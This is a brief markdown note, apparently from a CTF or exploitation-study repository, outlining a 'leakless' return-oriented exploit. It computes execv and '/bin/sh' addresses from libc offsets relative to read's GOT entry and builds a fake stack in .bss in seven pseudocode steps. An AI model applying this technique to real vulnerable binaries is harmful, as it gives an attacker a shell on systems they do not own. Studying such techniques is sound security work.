 Memory leakless exploit
=======================

We want to call an execv.

read_offset = 000e3e10
offset_execv_read = 000bd890 - read_offset
offset_binsh_read = 00166046 - read_offset

execv_address = *(read_got) + offset_execv_read
final_return = 0xdeadb00b
binsh_address = *(read_got) + offset_binsh_read
pointer_to_null = 08048008

new_stack = .bss + 1024

Steps of the attack:

1. int *new_stack = writable_position + exploit_size
2. writemem(new_stack--, pointer_to_null)
3. mem_to_mem(read_got, new_stack)
4. add(new_stack--, offset_binsh_read)
5. writemem(new_stack--, final_return)
6. mem_to_mem(read_got, new_stack)
7. add(new_stack--, offset_execv_read)
